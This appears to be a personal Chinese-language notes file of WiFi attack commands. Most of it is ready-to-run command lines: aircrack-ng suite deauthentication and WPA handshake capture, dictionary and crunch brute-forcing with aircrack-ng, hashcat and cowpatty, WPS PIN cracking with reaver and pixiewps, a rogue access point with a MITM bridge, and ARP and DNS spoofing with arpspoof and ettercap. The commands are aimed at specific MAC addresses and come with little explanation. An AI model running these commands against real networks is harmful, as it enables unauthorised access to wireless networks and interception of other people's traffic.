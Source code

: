 #wifi-ceshi

---

aircrack-ng 破解WEP以及WPA（字典攻击）密钥

airdecap-ng通过已知密钥来解密WEP或WPA嗅探数据

airmon-ng将网卡设定为监听模式

aireplay-ng数据包注入工具（Linux和Windows使用CommView驱动程序）

airodump-ng数据包嗅探：将无线网络数据输送到PCAP或IVS文件并显示网络信息

airtun-ng创建虚拟管道

airolib-ng保存、管理ESSID密码列表

packetforge-ng创建数据包注入用的加密包。

Tools混合、转换工具

airbase-ng软件模拟AP

airdecloak-ng消除pcap文件中的WEP加密

airdriver-ng无线设备驱动管理工具

airolib-ng保存、管理ESSID密码列表，计算对应的密钥

airserv-ng允许不同的进程访问无线网卡

buddy-ng easside-ng的文件描述

easside-ng 和AP接入点通讯（无WEP）

tkiptun-ng WPA/TKIP攻击

wesside-ng 自动破解WEP密钥

iwconfig

wlx00367652b3c9

ifconfig  wlx00367652b3c9

00:36:76:52:b3:c9

iwconfig wlx00367652b3c9 essid "jiali"

 ifconfig wlx00367652b3c9 up
 
iwlist

ruote -n

ifconfig wlx00367652b3c9 192.168.2.130 netmask 255.255.255.0

 airmon-ng  aircrack-ng
 
iwconfig  wlx00367652b3c9 channel 11

aireplay-ng -0 5 -a <mac> --ignore-negative wlx00367652b3c9 

 aircrack-ng 工具套件 -- airmon-ng ， aireplay-ng ， airodump-ng ， aircrack-ng

airodump-ng wlx00367652b3c9

airodump-ng –bssid 00:21:91:D2:8E:25 --channel 11 --write WEPCrackingDemo wlx00367652b3c9

airodump-ng –-bssid 14:75:90:57:F1:46 -–channel 11 –-write WPACrackingDemo wlx00367652b3c9

14:75:90:57:F1:46 jiali

airepaly-ng --deauth 1 -a  14:75:90:57:F1:46  wlx00367652b3c9  –-ignore-negative-one

tshark -r xx.cap

 airbase-ng  --essid jiali2 -c 11 wlx00367652b3c9


ifconfig eth0 0.0.0.0 up 

ifconfig ath0 0.0.0.0 up

网络桥接

echo 1 > /proc/sys/net/ipv4/ip_forward ip转发

brctl addbr mitm-bridge

 brctl addif mitm-bridge 
 
eth0 brctl addif mitm-bridge 

at0 ifconfig eth0 0.0.0.0 up

ifconfig at0 0.0.0.0 up


Wifite

aireplay-ng  -0 5  -a 14:75:90:57:F1:46 40:EC:99:D0:AA:E8 wlan0

aireplay-ng -0 5  -a 14:75:90:57:F1:46 -c 40:EC:99:D0:AA:E8 wlan0 

airodump-ng  -w /root/wpa-1 -c 1  wlan0 --ignore-negative-one   

airodump-ng  -w /root/wpa-1 -c 1  wlan0 --ignore-negative-one    检测
aircrack-ng -w testpass  /root/wpa-1-01.cap    破解
aireplay-ng -0 5  -a 14:75:90:57:F1:46 -c 40:EC:99:D0:AA:E8  wlan0 弹出网络

crunch

crunch 9 9 pass2 | aircrack-ng /root/wpa-1-01.cap -e jiali -w -

跑包

aircrack-ng /root/wpa-1-01.cap  -J /root/wpahashcap
hashcat
hashcat -m 2500 /root/wpahashcap.hccap /root/testpass 

cowpatty -f /root/testpass  -r /root/wpa-1-01.cap  -s jiali     

genpmk -f

wifite --dict /root/testpass  自动破解

彩虹表加速

li:~# airolib-ng RAINBOW_2 --import essid /root/essid 

 airolib-ng RAINBOW_2 --import passwd /root/testpass 
 
airolib-ng RAINBOW_2 --batch

airolib-ng RAINBOW_2 --export 

EWSA pyrit 慢慢跑

专业跑包 EWSA psk ，综合psk，pmk


云计算跑包

破解WPS

wash -i wlan0    判断wps wifite

wps，pin码破解原理

reaver命令穷举PIN码破解

-i  无线网卡名称

-b  目标AP的mac地址

-a  自动检测目标AP最佳配置

-S  使用最小的DH key，可以提高破解速度

-vv  显示更多的非严重警告（注意这是 2 个小写字母 v）

-d  即delay每穷举一次的闲置时间 预设为1秒

-c  信道编号

-p  PIN码四位或八位  //可以用8位直接找到密码。

知道pin码，改密码无用

reaver -b mac -i wlan0  -a -S -d 0 -t 1 -n -c 1

reaver -i wlan0mon -b xx:xx:xx:xx:xx:xx -vv

破解时推荐使用这个命令：reaver -i wlan0mon -b D8:15:0D:D6:13:92 -a -S -d9 -t9 -vv,因为–d9 –t9参数可以防止pin死路由器

 reaver  -i  wlan0mon -b  xx:xx:xx:xx:xx:xx  -p 12316977
 
pixiewps 破解wps，wifite 穷举

arpspoof

 cat /proc/sys/net/ipv4//ip_forward
 
arpspoof -i eth0 -t 10.1.1.3 10.1.1.254

ettercap 会话劫持，会话欺骗 抓包

毒化内网用户

ettercap dns 欺骗

无线不知道PIN： #reaver -i wlan0 -b mac地址 -vv

reaver -i wlan0 -b  FC:D7:33:99:87:E8  -a -S -d9 -t9 -vv

知道PIN ：  #reaver -i wlan0 -b FC:D7:33:99:87:E8  -P 12345670
 FC:D7:33:99:87:E8

aireplay-ng deauth攻击

aircrack-ng -w dic cap文件

freeradius

hostapd

asleap
